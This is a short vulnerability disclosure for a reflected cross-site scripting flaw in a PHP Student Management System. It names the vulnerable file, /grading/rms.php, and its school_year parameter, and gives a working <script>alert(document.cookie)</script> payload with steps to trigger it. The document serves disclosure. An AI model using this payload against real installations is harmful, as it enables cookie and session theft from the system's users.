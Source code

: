 # Student-Management-System-v1.0-has-Cross-site-Scripting-XSS-
Student Management System In PHP With Source Code has Cross-site Scripting (XSS)

Vul_Author: LeiPudd

vendors: https://itsourcecode.com/free-projects/php-project/student-management-system-in-php-with-source-code/

Vulnerability File: /grading/rms.php

Vulnerability location: GET /grading/rms.php?page=candidates_report&school_year=2019-2020 HTTP/1.1\r\n

[+] Payload: <script>alert(document.cookie)</script>

Tested on Windows 11, phpStudy

There is an example with alert:

![image](https://github.com/user-attachments/assets/1559d239-ba04-4621-981a-ec01066c901e)

When you enter the system,click 'Reports', and after that click on "Candidates Report".

![image-20240928181844675](https://github.com/user-attachments/assets/513d2455-b256-42e8-b8ae-68f87af9c8f4)

You can see the URL is http://localhost/grading/rms.php?page=candidates_report&school_year=2019-2020. We replace 'school_year=2019-2020' with
```sql
school_year=<script>alert(document.cookie)</script>
```
![image-20240928182358034](https://github.com/user-attachments/assets/56125c54-3185-4ea2-aa19-6ea43f8759c4)
then press Enter, you will obtain its cookie.
![image](https://github.com/user-attachments/assets/8b8cb463-dbaf-4643-8204-3e7d255018f0)

